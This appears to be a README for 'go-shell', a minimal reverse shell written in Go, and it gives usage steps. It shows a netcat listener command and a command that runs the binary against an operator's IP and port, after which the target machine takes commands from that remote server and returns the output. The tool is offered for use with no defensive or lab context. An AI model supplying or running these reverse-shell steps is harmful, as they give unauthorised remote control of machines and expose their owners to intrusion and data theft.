 # go-shell
Simple, stupid reverse shell on Golang

# How to use
* Compile
* On server side you must run a listener, for example ```nc -vl 9999```
* Run binary file and set server ip and server port as arguments, for example ```./my-shell 192.168.0.1 9999```
* At now you can execute command on server, and their commands will send to remote shell, and answer will send to your server. 
